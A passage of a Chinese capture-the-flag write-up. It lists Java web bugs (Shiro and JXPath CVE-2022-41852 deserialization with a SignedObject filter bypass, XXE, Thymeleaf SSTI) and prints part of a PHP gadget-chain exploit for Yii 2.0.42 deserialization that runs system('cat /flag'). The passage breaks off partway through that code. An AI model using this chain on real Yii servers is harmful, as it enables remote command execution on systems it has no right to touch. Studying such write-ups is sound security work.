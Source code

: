 ```xml
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>

</project>
```

首先是 shiro 反序列化, 以及最近新出的 Apache Commons Jxpath 反序列化 (CVE-2022-41852)

存在 ObjectInputFilter, 不过可以用 SignedObject 二次反序列化一把梭

![image-20221216002845770](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212160028870.png)

然后 XmlController 存在 xxe

![image-20221216002533437](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212160025533.png)

最后 HelloController 存在 thymeleaf ssti

![image-20221216003003245](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212160030331.png)

## web2

Yii 2.0.42, 存在反序列化

参考文章: [https://forum.butian.net/share/666](https://forum.butian.net/share/666)

```php
<?php
/***
 * Created by joker
 * Date 2021/9/7 16:35
 ***/
namespace Faker;
class DefaultGenerator{
    protected $default;
    function __construct()
    {
        $this->default = 'cat /flag';
    }
}
class ValidGenerator{
    protected $generator;
    protected $validator;
    protected $maxRetries;
    function __construct()
    {
        $this->generator = new DefaultGenerator();
        $this->maxRetries = '10';
        $this->validator = 'system';
    }
}

namespace Codeception\Extension;
use Faker\ValidGenerator;
class RunProcess{
    private $processes;
```
